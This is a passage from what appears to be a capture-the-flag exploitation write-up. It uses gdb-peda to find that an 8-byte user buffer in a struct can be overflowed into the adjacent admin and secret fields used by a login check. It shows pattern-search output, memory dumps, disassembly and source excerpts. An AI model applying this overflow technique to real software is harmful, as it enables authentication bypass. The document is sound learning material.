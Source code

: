```

gdb-peda$ pattern_search "ABAA"
Registers contain pattern buffer:
EBX+0 found at offset: 8
EAX+-104 found at offset: 8
Pattern buffer found at:
0x80003068 : offset    0 - size    5 (/home/xalvas/app/goodluck)
0x80004978 : offset    0 - size   30 ([heap])
Reference to pattern buffer not found in memory
```

`[!]` We took control of EBX register. Also, buffer size is **8** bytes. Let's check what's at **0x80003068**:
```
gdb-peda$ x/64xb 0x80003068
0x80003068 <hey>:	0x41	0x41	0x41	0x25	0x41	0x00	0x00	0x00
0x80003070 <hey+8>:	0x00	0x00	0x00	0x00	0xad	0x21	0x0f	0x01
0x80003078 <hey+16>:	0x00	0x00	0x00	0x00	0x76	0x99	0x30	0x1f
0x80003080:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x80003088:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x80003090:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x80003098:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x800030a0:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
```
`[!]` **0x80003068** is a start of "hey" struct.
```
gdb-peda$ disass main
   <...>
   0x80000e68 <+241>:	lea    eax,[ebx+0x68]
   0x80000e6e <+247>:	mov    edx,DWORD PTR [eax+0xc]
   0x80000e71 <+250>:	lea    eax,[ebx+0x68]
   0x80000e77 <+256>:	mov    eax,DWORD PTR [eax+0x10]
   0x80000e7a <+259>:	sub    esp,0x4
   0x80000e7d <+262>:	push   edx                         # [*] hey.secret
   0x80000e7e <+263>:	push   DWORD PTR [ebp-0x14]        # [*] protect
   0x80000e81 <+266>:	push   eax                         # [*] hey.admin
   0x80000e82 <+267>:	call   0x80000cc0 <attempt_login>  # [*] attempt_login(hey.admin, protect, hey.secret)
   <...>

limitedeternity$ cat src.c
  <...>
  struct f {
    char user[USIZE];
    int secret;
    int admin;
    int session;
  } hey;

  <...>
  attempt_login(hey.admin, protect, hey.secret);
  <...>
```

